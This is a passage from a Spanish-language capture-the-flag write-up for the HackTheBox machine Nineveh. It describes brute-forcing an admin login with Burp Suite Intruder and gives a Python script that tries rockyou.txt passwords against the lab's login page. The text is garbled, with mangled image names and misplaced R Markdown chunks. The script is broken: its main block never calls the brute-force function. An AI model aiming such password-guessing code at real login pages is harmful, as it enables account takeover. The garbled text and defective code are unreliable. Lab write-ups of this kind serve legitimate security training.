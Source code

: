     ![nineveh sniper payload list](images/notebook-fetch-response.png){ style="width:90%"}
    knitr::include_graphics("images/notebook-sniper-list.png")

![otebook-sier-list](/assets/images/notebook-sniper-list.png) 
    - en Grep - Extract damos a ADD
    - le damos a Fetch response y seleccionamos el campo invalid password

        ```{r, echo = FALSE, fig.cap="nineveh sniper fetch response", out.width="90%;" }

lo dejamos un ratito y ya podemos ver que filtrando por esta columna vemos una linea donde no esta escrito esto. Ya tenemos la contraseña.
![otebook-fetch-resose](/assets/images/notebook-fetch-response.png) 

### Bruteforcear la contraseña con python {-}

Este seria la manera de hacer, lo que hemos echo con Burpsuite pero en python. El script nos viene del compañero s4dbrd.

```python
#!/usr/bin/python3

import requests
import pdb
import sys
import signal

from pwn import *

# Variables Globales
login_url = 'http://nineveh.htb/department/login.php'


f = open("rockyou.txt", "r")

def def_handler(sig, frame):
    print("\n\nSaliendo...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

def bruteForce():
 
    s = requests.Session()

    passwords = f.readlines()
      
    for password in passwords:
        

        login_data = {
            'username': 'admin',
            'password': password.rstrip()
        }

        p1.status("Probando con la contraseña %s" %password)
        r = s.post(login_url, data=login_data)
        
        if 'Invalid Password!' not in r.text:
            p1.success("La contraseña correcta es %s" %password)
            sys.exit(0)

if __name__ == '__main__':

    p1 = log.progress("Fuerza bruta")
```